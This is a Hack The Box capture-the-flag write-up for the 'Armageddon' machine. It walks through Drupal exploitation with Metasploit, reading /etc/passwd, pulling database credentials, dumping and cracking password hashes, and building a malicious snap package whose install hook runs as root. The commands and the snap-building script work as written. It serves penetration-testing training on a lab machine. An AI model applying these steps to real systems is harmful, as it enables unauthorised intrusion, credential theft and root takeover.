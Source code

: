 ```yaml
---                                                                                           
title: Hack The Box - Armageddon writeup                          
date: 2021-08-03 12:38:00 +0200                                                              
categories: [ Hack The Box, Machines]                                                                
tags: [outdated-software, known-exploit, metasploit, drupal, john-the-ripper  ]     
dirImg: /assets/img/HackTheBox/Armageddon                     
image:
  src: /assets/img/HackTheBox/Armageddon/icon.webp
  alt: Armageddon image
toc: false                                                                                    
---
```



Start with usual nmap enumeration 
```sh
>> nmap -sV -sC -oN nmap-initial 10.10.10.233

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Welcome to  Armageddon |  Armageddon

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```

## Foothold

It is possible to notice some exposed resources from the output of nmap.   
The file *CHANGELOG.txt* reports that the Drupal version in use is the 7.56, whose last update was in 2017.  
It tells us that the service has not been updated for a while. Thus we look for vulnerabilities in Drupal.

```sh
>> searchsploit drupal 7.56                                                                                                                                                                          
-------------------------------------------------------------------------------- ---------------------------------                                                                                                                         
 Exploit Title                                                                  |  Path                                                                                                                                                    
-------------------------------------------------------------------------------- ---------------------------------                                                                                                                         
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code (Metasploit)        | php/webapps/44557.rb                                                                                                                                     
Drupal < 7.58 - 'Drupalgeddon3' (Authenticated) Remote Code Execution (PoC)     | php/webapps/44542.txt                                                                                                                                    
Drupal < 7.58 / < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execu | php/webapps/44449.rb                                                                                                                                     
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (Met | php/remote/44482.rb                                                                                                                                      
Drupal < 8.3.9 / < 8.4.6 / < 8.5.1 - 'Drupalgeddon2' Remote Code Execution (PoC | php/webapps/44448.py               
Drupal < 8.5.11 / < 8.6.10 - RESTful Web Services unserialize() Remote Command  | php/remote/46510.rb                
Drupal < 8.6.10 / < 8.5.11 - REST Module Remote Code Execution                  | php/webapps/46452.txt              
Drupal < 8.6.9 - REST Module Remote Code Execution                              | php/webapps/46459.py               
-------------------------------------------------------------------------------- ---------------------------------   
```

We are looking for remote code execution. *Drupalgeddon3* seems to be what we really need. 


#### Using metasploit
The exploit is also available as a metasploit module: `unix/webapp/drupal_drupalgeddon2 `   
We set the options and run the exploit. We get a meterpreter shell as the **apache** user

The exploit can be easily performed without metasploit. Try it if you want more insights on the vulnerability and how the exploit works.  
Alternatively, you can set the proxy option in the meterpreter module, pointing to your proxy (e.g. Burp). You can then study the traffic to analyze what the exploit is doing.

## User

By printing the /etc/passwd file we find out that the machine has a user named brucetherealadmin.
```sh
brucetherealadmin:x:1000:1000::/home/brucetherealadmin:/bin/bash
```


The file *.gitignore* lists some interesting files that is worth looking at.  
One of them is the *sites/* directory.

We analyze the content of this directory and after some minutes of manual search, we found in *sites/all/settings* the password of *drupaluser* for the *mysql* database.
```
$databases = array (                                                                                 
  'default' =>                                                                                       
  array (                                                                                            
    'default' =>                                                                                     
    array (                                                                                          
      'database' => 'drupal',                                                                        
      'username' => 'drupaluser',                                                                    
      'password' => 'CQHEy@9M*m23gBVj',                                                              
      'host' => 'localhost',                                                                         
      'port' => '',                                                                                  
      'driver' => 'mysql',                                                                           
      'prefix' => '',                                                                                
    ),                                                                                               
  ),                                                                                                 
);    
```

We first try the password with *brucetherealadmin* in ssh but does not work. 

As expected, the credentials are valid for the mysql database.

I couldn't access the database interactively because the shell froze after each attempt. So I wrote an inline mysql command to get the names of the tables:
```sh
mysql -u drupaluser -p drupal -e "show tables;"
```
The database has a bunch of tables. We proceed by dumping the *Users* table and getting the password hash of *brucetherealadmin*.
```
bash-4.2$ mysql -u drupaluser -p drupal -e "select name,pass,mail from users;"
Enter password: 
name    pass    mail

brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt admin@armageddon.eu
kera    $S$D4fb5rvwm0575Wnd4tgE.vhQ7xMjPiK0g/yC5xbH2EXQe7lKx22R kera@local.host
xsombi  $S$DdWvgfvc2Sv4BChUQLYUpvbvL5poB/6y0A0j.7OrlPnGRDEoaUCx xsombi@mail.com
blafucker       $S$DtI2o1d6OJzZn6cn4TlFBuGpCskt6VYkbE21YiemNVCtNoJGiM3Y bla@bla.com
```

The hash is in Drupal7 format, which is not available in hashcat but it's supported by John the Ripper.

```sh
john --format=Drupal7 --wordlist /usr/share/wordlists/rockyou.txt hash
```
In less then a second we get the cracked password: `booboo`

We can now login to brucetherealadmin in ssh and get the flag.


## Root
We enumerate which commands the user *brucetherealadmin* can execute as sudo.
As we see from the output of `sudo -l`, the user can execute `sudo snap install *` without being asked for a password. The **\*** means that any argument can be passed. 

Such behavior looks quite odd. We look in *GTFObins* to see if it can be exploitable.  
Turns out that we can build our own malicious snap package and install it in the victim machine, triggering code execution under the *root* user. 

We slightly modify the GTFO script to print the root flag ( a reverse shell could have been injected too), and we run it in the host machine. The malicious snap package will be created.
```sh
COMMAND='cat /root/root.txt'
init_dir=$(pwd)
temp=$(mktemp -d)
cd $temp
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n namesnap -s dir -t snap -a all meta
cp  $temp/namesnap* $init_dir
```

We transfer the package just created to the victim machine and we install it.  
Install the snap package:
```sh
[brucetherealadmin@armageddon tmp]$ sudo snap install /tmp/out.snap --dangerous --devmode                                                                                                              
error: cannot perform the following tasks:
- Run install hook of "namesnap" snap if present (run hook "install": 44ea752ae10856a7f3200e0e7718d898)
```

The --dangerous flag is required because the snap is not signed by the Snap Store. The --devmode flag acknowledges that you are installing an unconfined application.

The root flag is displayed.
